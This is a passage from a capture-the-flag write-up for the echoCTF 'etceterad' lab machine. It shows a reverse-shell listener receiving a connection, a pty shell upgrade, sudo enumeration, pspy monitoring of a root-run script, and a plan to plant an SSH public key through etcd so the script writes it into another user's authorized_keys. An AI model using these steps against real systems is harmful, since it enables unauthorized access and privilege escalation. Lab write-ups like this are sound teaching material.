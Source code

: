 We can now start our listener and reload the webpage to get a connection.
```
mcsam@0x32:~/$ rlwrap nc -lnvp 8989
Listening on 0.0.0.0 8989
Connection received on 10.0.160.122 40418
python3 -c "import pty;pty.spawn('/bin/bash')"
nodejs@etceterad:/app$ id
uid=1001(nodejs) gid=1001(nodejs) groups=1001(nodejs)
nodejs@etceterad:/app$ 
```

## Privilege Escalation
First thing we can do is to check our `sudo` privileges on the machine.
```
mcsam@0x32:~/$ sudo -l
Matching Defaults entries for nodejs on etceterad:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nodejs may run the following commands on etceterad:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/fetch_keys
```

We can see that we are allowed to run `/usr/local/sbin/fetch_keys` as any user on the machine. We will have to leverage this to hijack the process and obtain code execution as the root user.

Unfortunately we have very limited permissions to `/usr/local/sbin/fetch_keys` and hence we cannot read the contents of the file.

We will leverage another teachnique to determine what happens when the script is run. We will do that using `pspy`.

Note that `pspy` does not come by default in linux and as a result we will have to download and transfer the binary to our target.

To be able to do this efficiently we would need another session(reverse shell) on the target. We can monitor the activity with one shell while running the script from another shell to give us full visibility.

Running the script `/usr/local/sbin/fetch_keys`.
```
mcsam@0x32:~/$ sudo /usr/local/sbin/fetch_keys
Fetching /home/ETSCTF/.ssh/authorized_keys
Fixing perms (0400)
```

Viewing events from `pspy`.
![pspy output](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/inspecting_ps_for_fetch_keys.png)

From the image above, we can see that the `/usr/local/sbin/fetch_keys` script queries a key from `etcd` and writes the value to `/home/ETSCTF/.ssh/authorized_keys`.

Previously, we found out that we have write access to a number of keys under the `/home` prefix. We can enumerate and check the keys we can write to. If we can successfully write our own public keys to that to the `etcd` databasee, we can run the `/usr/local/sbin/fetch_keys` script to write our ssh public key to `/home/ETSCTF/.ssh/authorized_keys`. If this is successful then we would be able to login into the machine as `ETSCTF`.
